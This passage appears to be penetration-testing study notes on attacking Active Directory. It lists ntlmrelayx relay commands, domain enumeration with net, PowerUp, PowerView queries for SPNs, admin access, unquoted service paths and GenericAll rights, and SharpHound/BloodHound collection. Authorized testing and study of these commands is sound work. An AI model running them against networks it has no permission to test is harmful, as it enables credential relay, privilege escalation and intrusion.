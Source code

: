 ```
```
ntlmrelayx.py -tf targets.txt -smb2support
```

## Enumeration
- All users in domain
```
net user /domain
```
- Groups in domain
```
net group /domain
```

### PowerUP
- Run all checks
```
Invoke-AllChecks
```

### PowerView
#### Commands
Get-NetDomain - Gives us basic information about the domain including name etc
Get-NetDomainController - This highlights the IP address etc of the domain controller
Get-NetDomainPolicy - This shows us all domain policies. Once we wish to enumerate one of the policies we can use 
(Get-DomainPolicy)."policy_name" thisd can highlight things such as password policy etc.
Get-NetUser - This will pull info about all users. Including description where some people store passwords.
Get-UserProperty will list properties we can request information on
Get-UserProperty - Property propertyname 
Here we can look at password last set for old passwords or even last login - This may ID honeypot accounts. 
Get-NetComputer will list out all computers in the domain. 
Get-Netcomputer -FullData | select operating system  (think of select as like grep)
Get-NetGroup -GroupName "Domain Admin" - highlights domain admins
Invoke-ShareFinder - Highlights all SMB shares on the network. 
Get-NetGPO returns group policy objects
Get-ModifiableServiceFile - Looks for service files we can modify
Get-UnquotedService - Looks for unquoted service paths
Find-LocalAdminAccess - Find machines where current user has local admin access
Get-NetSession -Computername Files04 - Sessions on machine
Get-NetUser -SPN | select samaccountname,serviceprincipalname - Enumerate SPNs
Get-ObjectAcl -Identity stephanie - Shows who has permissions on the stated identity/object
Find-LocalAdminAccess - Look for admin access for the user across domain
Find-DomainShare - Enumerate domain shares
- Look for genericall access on stated object
```
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Find-DomainShare - Find domain shares
Find-DomainShare -CheckShareAccess - To show shares we can view

### Bloodhound
```
neo4j console
bloodhound
```
- Grab data from victim machine with sharphound using
```
Import-Module .sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```
- Alternatively use .exe
```